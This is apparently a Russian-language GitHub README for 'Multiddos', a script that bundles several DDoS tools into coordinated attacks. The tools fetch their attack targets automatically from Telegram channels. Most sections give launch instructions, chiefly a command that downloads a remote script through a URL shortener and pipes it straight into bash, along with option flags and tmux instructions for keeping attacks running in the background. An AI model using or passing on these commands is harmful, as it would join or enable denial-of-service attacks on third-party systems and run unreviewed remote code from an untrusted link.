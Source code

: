 ## Multiddos - скрипт объединяющий в себе несколько утилит для ddos
Идея скрипта заключается в том, чтобы автоматизировать сразу несколько утилит, объединить несколько групп в более массированные атаки, а также не давать простаивать свободным ресурсам на VPS.

![multiddos](https://user-images.githubusercontent.com/53382906/161972523-a1197762-a166-45f2-9b68-6e13cc940d99.gif)

На данный момент скрипт поддерживает:
* [Multiddos](https://github.com/KarboDuck/multiddos), ранее известный как auto_mhddos (обвертка для mhddos_proxy) от Украинского Жнеца ([канал](https://t.me/ukrainian_reaper_ddos), [чат](https://t.me/+azRzzKp-STpkMjNi))
* [db1000n ](https://github.com/Arriven/db1000n) от IT ARMY of Ukraine ([канал](https://t.me/itarmyofukraine2022), чат)
* [UA Cyber SHIELD](https://github.com/opengs/uashield) ([канал](https://t.me/uashield), чат) 

Все утилиты автоматизированы, то есть автоматически обновляются при запуске и автоматически подтягивают новые цели из своих каналов.

## Команда для запуска в Linux

Рекомендуется использовать именно этот метод
```
curl -L tiny.one/multiddos | bash && tmux a
```

Скрипт запускает tmux сессию. Если закрыть терминал или оборвать ssh сессию, то программы не закроются, а будут дальше работать в фоне. После повторного подключения к сессии Tmux все программы снова появятся на экране.

Внутри окна Multiddos запускается утилита для мониторинга gotop (можно смотреть за исходящим трафиком, нагрузкой на процессор, и использованием RAM) и утилиты, перечисленные выше. 

## Управление Tmux

* **Свернуть Tmux**. Программы продолжат работать в фоне, и к сессии можно будет позже снова подключиться. `Нажмите Ctrl+b` отпустите `Нажмите d`
* **Закрыть сессию Tmux**. Сначала выйдите из Tmux: `Нажмите Ctrl+b` отпустите `Нажмите d`. Выполните в терминале команду `tmux kill-session -t multiddos`
* **Переподключиться к сессии Tmux**. Если у вас всего одна сессия Tmux, то используйте: `tmux a` (tmux attach). Если у вас несколько сессий, подключайтесь по имени: `tmux attach-session -t multiddos`

## Закрыть все программы
Поскольку программы продолжат работать в фоне после закрытия терминала, закрывать их нужно другими способами.

1. В другом терминале выполнить команду:
```
pkill tmux; pkill node; pkill shield; pkill -f start.py; pkill -f runner.py
```

2. Или при желании просто перезагрузить компьютер/виртуалку.

## Запуск в фоне
<details>
  <summary>развернуть</summary>
  
То же самое что и обычный запуск, но без автоматического подключения к сессии Tmux. То есть программы будут запущены как обычно, но не будут выведены на экран. Соответственно просто удаляем вызов Tmux в конце команды.

```
curl -L tiny.one/multiddos | bash
```
Чтобы подключиться к сессии tmux (вывести программы на экран) прочитайте ниже пункт **Переподключиться к сессии Tmux**.
 
</details>

## Выбор режима


<details>
  <summary>развернуть</summary>
  

Multiddos запускается по умолчанию с gotop, multiddos и db1000n. Это стандартная конфигурация. Из этой конфигурации можно убрать gotop или db1000n. Или добавить в нее утилиты: uashield, vnstat (мониторинг трафика), matrix (эффект матрицы).

Для того, чтобы убрать утилиту используется ключ со знаком "-":

`-g` убрать gotop

`-d` убрать db1000n

Для того, чтобы добавить утилиту используется ключ со знаком "+":

`+u` добавить uashield

`+v` добавить vnstat -l

`+m` добавить matrix

Пример команды:

```
curl -L tiny.one/multiddos -o mul.ti && bash mul.ti -d +m && tmux a
```
убрать db1000n и добавить matrix

</details>

## Решение проблем
<details>
  <summary>развернуть</summary>
 
Скрипт может не дружить с запуском на виртуалке, или даже на обычном ПК, подключенном к Интернету через Wi-Fi. Возможны глюки сетевого адаптера. Вероятно большое кол-во сетевых пакетов перегружает некоторое сетевое оборудование. Ошибки вылазят самые разнообразные. Пробуйте перезагрузить систему и запустить снова.

На vps и ПК подключенных через Ethernet такие проблемы как правило не наблюдаются.
 
</details>